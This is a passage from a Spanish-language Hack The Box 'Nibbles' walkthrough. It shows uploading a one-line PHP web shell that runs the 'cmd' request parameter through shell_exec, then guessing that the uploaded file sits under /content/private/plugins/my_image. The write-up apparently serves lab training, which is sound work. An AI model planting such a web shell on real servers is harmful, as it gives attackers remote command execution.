 ![](/assets/images/htb-nibbles/nibbles-web7.png)

Por lo tanto, vamos a tratar de ver si podemos subir un archivo php.

```php
<?php
  echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"
?>
```

![](/assets/images/htb-nibbles/nibbles-web8.png)

En la parte de abajo nos debe aparecer un mensaje indicando que el archivo se subir exitosamente. Ahora debemos descubrir la ruta en donde se alojó nuestro archivo y si ponemos un poco de atención en lo que nos descargamos de el recurso `/content/`, vemos que bajo la ruta `/content/private/` existe un directorio llamado **plugins** y dentro de este se encuentra otro directorio de nombre **my_image**; por lo que es muy probable que ahí este nuestro archivo.
